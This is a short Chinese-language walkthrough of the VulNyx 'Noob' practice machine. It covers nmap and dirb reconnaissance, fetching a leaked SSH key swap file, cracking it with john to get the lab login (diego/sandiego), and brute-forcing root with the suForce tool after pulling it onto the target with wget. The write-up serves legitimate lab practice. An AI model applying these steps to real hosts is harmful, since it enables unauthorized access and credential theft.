

# 环境

来自[Vulny_Noob](https://vulnyx.com/#Noob)，id_rsa泄露，爆破ssh，爆破root

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```


## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.12
```


## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80 192.168.10.12
```



## 目录扫描

```bash
dirb http://192.168.10.12
```

目录扫描无结果

# web渗透

## id_rsa泄露

当尝试访问http://192.168.10.12/notes.txt，可以看到提示，在编辑id_rsa的时候退出了，系统会生成一个`.id_rsa.swp`的文件


```bash
wget http://192.168.10.12/id_rsa.swp
ssh2john id_rsa.swp>id1
john id1 --wordlist=/usr/share/wordlists/rockyou.txt
账号：diego
密码：sandiego
```


## 提权

看来wp才知道是爆破，d4t4s3c的[suForce](https://github.com/d4t4s3c/suForce)

```bash
发现只能爆破root密码
python -m http.server 80
wget http://192.168.10.10/suForce
wget http://192.168.10.10/techyou.txt
chmod 777 suForce
./suForce -u root -w techyou.txt
```


